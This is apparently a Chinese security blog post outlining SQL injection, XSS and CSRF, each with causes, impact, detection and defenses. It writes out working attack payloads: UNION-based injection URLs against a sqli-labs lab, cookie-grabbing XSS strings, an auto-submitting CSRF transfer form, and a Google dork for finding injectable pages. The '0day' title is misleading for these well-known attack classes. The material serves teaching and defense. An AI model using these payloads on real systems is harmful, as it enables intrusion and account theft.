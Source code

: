 #  web 0day 大全（一）   
原创 零漏安全  零漏安全   2024-06-22 10:02  
  
SQL注入  
  
1.发生方式  
  
通过将恶意的DQL或者DML语句添加到应用的输入参数中，经过后端代码拼接成语句，再在后台数据库服务器上解析执行进行的攻击  
  
1.1典型案例  
```
布尔盲注
时间盲注
报错盲注
联合查询
```  
  
1.2攻击方式  
```
1、判断是否存在注入点（只要有变化就可能存在）
http://192.168.13.100/sqlilabs/Less-1/?id=1
http://192.168.13.100/sqli-labs/Less-1/?id=1' and 1=1 --+
2、判断字段数量
http://192.168.13.100/sqli-labs/Less-1/?id=1'order by 4 --+
3、使用联合查询，判断回显点
http://192.168.13.100/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
4、查询版本号和数据库名称
http://192.168.13.100/sqli-labs/Less-1/?id=-1' union select 1,database(),version() --+
5、获得数据库中的表名
http://192.168.13.100/sqli-labs/Less-1/?id=-1'union select1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
6、获得字段名
http://192.168.13.100/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+
```  
  
1.3检测思路  
```
1、使用谷歌语法搜集符合格式的URL，比如inurl:index.php?id=1
2、使用SQLmap工具
3、手动注入，输入 ' 或者 ' or 1=1
```  
  
1.4防御措施  
```
1、对用户进行分级管理，严格控制用户的权限
2、程序员在书写SQL语言时，禁止将变量直接写入到SQL语句，必须通过设置相应的参数来传递相关的变量
3、SQL语句预编译
4、基础过滤和二次过滤（WAF）
5、数据库信息加密：对称、非对称、不可逆
```  
  
xss跨站脚本攻击  
  
2.1发生方式  
  
利用GET参数或者输入框、留言框等，插入一些恶意的代码，当用户访问地址、页面的时候现实攻击（分为：反射型、存储型）  
  
2.2典型案例  
```
1、GET请求（通常是构造钓鱼链接引发反射攻击）
2、留言板
3、搜索框
```  
  
2.3漏洞危害  
```
1、获取cookie，实现冒充身份的后续操作
2、刷点击
3、弹广告
4、传播蠕虫病毒
```  
  
2.4攻击方式  
```
1、<script>alert(1)</script>
2、<img src="" onerror="alert(1)">
3、<script>alert(document.cookie)</script>
4、><script>alert(document.cookie)</script>
注意：绕过方法有双写、利用HTML中的字符实体、大小写等等
payload可以百度
```  
  
2.5检测思路  
```
<script>alert('XSS')</script>、<img src=x onerror=alert('XSS')>、<iframe src="javascript:alert('XSS');"></iframe> ， 最基础的可以在输入点的参数中加入这些代码，查看页面的响应情况。
```  
  
2.6防御措施  
```
1、利用正则表达式对输入的内容进行识别、然后进行处理（入口）
2、使用htmlspecialchars函数对echo"";document.write();等输出的内容做实体化的处理（出口）
3、使用WAF：web application firewall
```  
  
CSRF跨站请求伪造  
  
3.1发生方式  
  
第三方网站利用当前网站生效的cookie，从而请求服务器的接口去进行攻击（如转账、修改用户信息等敏感接口）  
  
3.2典型案例  
```
GMali--->设置邮件转发（2007年）
微博--->自动关注账号
```  
  
3.3漏洞危害  
```
1、修改账户信息
2、利用管理员账号，上传木马文件
3、传播蠕虫病毒（点击、扩散、点击...）
4、和其他攻击手段配配合攻击（XSS、SQL注入）
```  
  
3.4攻击方式  
```
1、通过图片的img src属性，自动加载，发起get请求<imgsrc="http://superbank.com/bank/transfer.php?nameid=2002&amount1000"width="0"height="0">
2、构成一个超链接，用户点击以后，发起GET请求
<a href="http://superbank.com/transfer.php?amount=10008to=jiangang"taget=" blank">小姐姐在线视频聊天!!
<a/>
3、构建一个隐藏表单，用户访问，自动提交，发起POST请求
<form action="http://superbank.com/withdraw" method=POST>
 <input type="hidden" name="account"value="xiaoming"/>
 <input type="hidden"name="amount" value="1000"/>
 <input type="hidden" name="to" value="jiangang" />
</form>
<script> document.forms[0].submit(); </script>
```  
  
3.5检测思路  
```
1、使用BP的CSRF POC功能
2、工具CSRF Tester（半自动）
3、https://github.com/s0md3v/Bolt（全自动）
4、各种云产品，扫描检测（给钱就行）
```  
  
3.6防御措施  
```
1、使用Referer进行一个简单效验（但是Referer可以被修改）
2、使用token验证（不是100%安全）
<iframe src="../csrf" onload=alert(frames[0].document.getElementsByName('user token'[0].value)>
3、敏感接口调用的二次验证：验证码、短信、扫码、人脸识别等
4、不好奇、不乱点（使用者角度）
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9GGhFCliayOT8iadiczqGjFfrm3oZqGsnnLm8ssvfMO2kTknUKiavbVsDesPnr6lnFRPGXM3kyJy5d8wJViacAdmEyw/640?wx_fmt=png "")  
  
长按二维码识别关注  
  
  
